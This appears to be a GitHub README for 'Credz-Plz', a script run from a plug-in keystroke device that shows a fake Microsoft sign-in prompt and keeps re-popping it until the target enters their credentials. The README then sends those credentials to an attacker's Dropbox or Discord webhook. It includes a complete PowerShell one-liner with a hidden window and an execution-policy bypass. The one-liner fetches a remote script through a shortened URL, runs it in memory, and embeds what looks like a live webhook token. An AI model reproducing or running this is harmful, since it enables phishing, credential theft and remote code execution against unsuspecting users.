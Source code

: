 <!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# Credz-Plz

A script used to prompt the target to enter their creds to later be exfiltrated with either Dropbox or a Discord webhook.

## Description

A pop up box will let the target know "Unusual sign-in. Please authenticate your Microsoft Account".
This will be followed by a fake authentication ui prompt. 
If the target tried to "X" out, hit "CANCEL" or while the password box is empty hit "OK" the prompt will continuously re pop up.
Once the target enters their credentials their information will be uploaded to your Dropbox or Discord webhook for collection.


## Getting Started

### Dependencies

* DropBox or other file sharing service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in your device
* Invoke-WebRequest will be entered in the Run Box to download and execute the script from memory
* You no longer need to host your own version of this script 
* `$db` is the variable that holds your DropBox token
* `$dc` is the variable that holds your Discord webhook 
* Fill in either variable or both to set your exfil method

```
powershell -w h -ep bypass $dc='https://discord.com/api/webhooks/1092997498089521183/ZzWeOZRzAfNWtqXfzLDv47DMWokwf-yMbhL-px977t0sqqTGDuT9YmI27cIKRrxF9Tza';irm https://tinyurl.com/CredzPlz4 | iex
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>


